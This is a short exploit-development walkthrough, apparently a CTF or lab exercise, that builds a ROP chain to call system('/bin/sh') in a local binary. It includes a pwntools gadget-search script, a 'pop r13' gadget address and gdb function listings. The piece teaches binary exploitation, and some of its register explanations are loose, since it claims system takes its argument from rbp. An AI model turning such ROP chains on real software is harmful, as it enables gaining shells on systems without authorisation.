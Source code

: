 # Calling system()

To call system(), I need to write `r13` memory with system address. 
For that, I need to find a ROP gadget which contains popping `r13`. (The POP instruction reads a byte from the address indirectly referenced by the SP register.) 

- `ret` == `pop rip`. If `rsp` contains `pop r13` address, that'll go to `rip` and the following instructions will be executed.
- `rip` now contains `pop r13` instruction. If the `rsp` now contains system() address, that'll go to `r13` register. 
- Then we can jump to `r13` which has system address and it'll take the params from `rbp` which contains `/bin/sh\x00`
Which means we need to write system address just after  `offset(112) + shell(8) + pop gadget`.

## Finding `pop r13` gadget:

```python
#!/usr/bin/python3
from pwn import *

p = gdb.debug('./myapp','''
set follow-fork-mode parent
ropsearch "pop r13"
''')
```

gdb gives us:

```bash
Searching for ROP gadget: 'pop r13' in: binary ranges
0x00401206 : (b'415d415e415fc3')        pop r13; pop r14; pop r15; ret
```

# Using the gadget

`0x00401206` contains `pop r13`, but also `pop r14`, `pop r15` and then `ret`.
We can give system for r13 and null's for r14 and r15. 
Let's first find system's address:

```bash
gdb-peda$ info functions
Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  system@plt
0x0000000000401050  printf@plt
0x0000000000401060  gets@plt
0x0000000000401070  _start
0x00000000004010a0  _dl_relocate_static_pie
0x00000000004010b0  deregister_tm_clones
0x00000000004010e0  register_tm_clones
0x0000000000401120  __do_global_dtors_aux
0x0000000000401150  frame_dummy
0x0000000000401152  test
0x000000000040115f  main
0x00000000004011b0  __libc_csu_init
0x0000000000401210  __libc_csu_fini
0x0000000000401214  _fini
```
